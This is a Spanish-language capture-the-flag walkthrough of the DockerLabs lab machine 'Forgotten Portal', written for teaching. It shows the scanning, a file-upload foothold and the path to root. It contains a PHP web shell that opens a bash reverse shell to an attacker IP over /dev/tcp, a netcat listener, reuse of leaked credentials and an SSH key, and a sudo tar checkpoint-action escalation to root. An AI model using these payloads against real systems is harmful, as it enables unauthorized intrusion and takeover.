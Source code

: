 # forgotten\_portal

Máquina "Forgotten Portal" de [DockerLabs](https://dockerlabs.es)

Autor: [Cyberland](https://cyberlandsec.com/)

Dificultad: Medio

![Dockerlabs](../../../maquina-forgotten_portal/img/dock.png)

## Reconocimiento

Vamos a empezar con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Dec  4 09:53:02 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-04 09:53:03 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPqFV+NfpZGuIDsCCv9gPbHdmIQCjA9+nAnq29cKRh9lI+rnshZyqxyh9JssAFr8o+FNZejMlW/A0WBpMx09uJ8=
|   256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOq/ECOx7kvdWUnIws1W68bb7yWOLN1ciw36P4DqfMa4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  4 09:53:11 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Tenemos 2 puertos abiertos:

`80: Apache httpd 2.4.58`

`22: OpenSSH 9.6p1`

y al parecer estamos frente a una máquina ubuntu.

SI vamos al puerto 80 desde el navegador, veremos una web sin nada interesante. Pero si a esta le revisamos el código fuente, vermos la siguiente nota:

![nota](../../../maquina-forgotten_portal/img/nota.png)

Por lo que si vamos a `m4ch1n3_upload.html`, veremos un formulario para subir archivos.

## Intrusión

Ahora nos creamos un script en php en nuestra máquina el cual contenga lo siguiente:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

una vez creado, lo subimos.

Ahora solo nos queda escuchar con netcat por el puerto 443 (`sudo nc -nlvp 443`) y entrar a el archivo que subimos desde la web, una vez entremos nos llegará la shell.

## Escalada De Privilegios

#### www-data

Si vamos a /var/www/html, veremos un archivo llamado `access_log`, el cual en una parte dice lo siguiente:

```css
[2023-11-21 19:36:22] INFO: Clave codificada generada: YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3
```

y si pasamos `YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3` a texto (es base64) nos dice lo siguiente:

```css
alice:s3cr3tp@ssw0rd^487
```

Por lo que ya tenemos credenciales para alice.

#### Alice

Si vamos a la home de alice, veremos un reporte en una carpeta llamada "incidents", al leerlo nos dice de manera resumida, que en la home de todos los usuarios, hay un id\_rsa, el cual es de bob y tambien nos da la contraseña del archivo:

```css
**Passphrase del Usuario `bob`:** `cyb3r_s3curity`
```

por lo que vamos a `~/.ssh/` y copiamos el archivo id\_rsa a nuestra maquina local, luego le damos permisos de ejecución (chmod 600 id\_rsa) y nos conectamos como bob:

```css
ssh -i id_rsa bob@172.17.0.2
```

#### Bob

Siendo bob, podemos ejecutar como root el binario tar, por lo que luego de buscar, veo que podemos escalar a root ejecutando lo siguiente:

```css
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

#### Root

![root](../../../maquina-forgotten_portal/img/root.png)

Gracias por leer :)
